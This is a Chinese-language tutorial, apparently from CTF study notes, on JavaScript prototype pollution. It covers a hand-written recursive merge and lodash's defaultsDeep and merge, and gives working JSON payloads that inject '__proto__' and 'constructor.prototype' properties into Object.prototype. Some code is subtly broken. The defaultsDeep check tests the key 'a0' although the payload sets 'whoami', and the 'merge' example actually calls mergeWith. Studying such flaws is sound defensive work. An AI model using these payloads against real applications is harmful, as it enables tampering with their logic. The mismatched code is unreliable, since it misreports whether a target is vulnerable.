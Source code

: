 ```javascript
```
这里接收两个对象，先对source对象进行一个遍历，互相之间没有的key会进行补充。<br />由于会对两个对象进行改变，因此不返回任意值。<br />但是如果将key改成__proto__会发生一些操作。
```javascript
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
var a={}
var b=JSON.parse('{"a":"test","__proto__":{"target":"flag"}}')
console.log(b)
merge(a,b)
console.log({}.target)
```
通过对一个json进行反序列化，b就变成了一个对象<br />对象里由键名为a，值为test的属性，以及键名为__proto__,值为{"target":"flag"}对象的属性。<br />然后对ab进行合并，由于a的__proto__属性变成了{"target":"flag"}这一对象，就导致a的原型对象<br />发生了改变，于是访问a的target属性时，a本身没有，就往a的原型对象上找，由于被污染成了我们想要的东西，<br />就把flag输出。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/32634994/1672215111389-c9d8d65a-e41d-441d-bdf7-8d8716fd55fb.png#averageHue=%23f7f7f7&clientId=u4f55d445-fa85-4&from=paste&id=ud120a74a&name=image.png&originHeight=888&originWidth=1110&originalType=url&ratio=1&rotation=0&showTitle=false&size=160339&status=done&style=none&taskId=ubced1485-7a59-483e-abf0-21423d01e51&title=#averageHue=%23f7f7f7&from=url&id=m2tMM&originHeight=888&originWidth=1110&originalType=binary&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&title=)
<a name="qFrSg"></a>
# lodash的原型链污染
Lodash是一个JavaScript实用库，提供了很多常用的函数，可以大幅提高JavaScript编程的效率。


<a name="FMzii"></a>
## lodash.defaultsDeep
lodash.defaultsDeep是一个JavaScript工具库Lodash中的一个方法，用于将多个对象深度合并成一个对象。它会遍历所有对象中的每一个属性，将它们递归地合并到一个新对象中，如果有属性名冲突，则后面的对象中的属性会覆盖前面的对象中的属性。
```javascript
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"constructor": {"prototype": {"whoami": "Vulnerable"}}}'
function check() {
    var o={};
    mergeFn(o, JSON.parse(payload));
    if (({})[`a0`] === true) {
        console.log(`Vulnerable to Prototype Pollution via ${payload}`);
    }
}

check();
```
这里会将{}的构造函数污染。
<a name="tGAFG"></a>
## lodash.merge
```javascript
var lodash= require('lodash');
var payload = '{"__proto__":{"whoami":"Vulnerable"}}';

var a = {};
console.log("Before whoami: " + a.whoami);
lodash.mergeWith({}, JSON.parse(payload));
console.log("After whoami: " + a.whoami);
```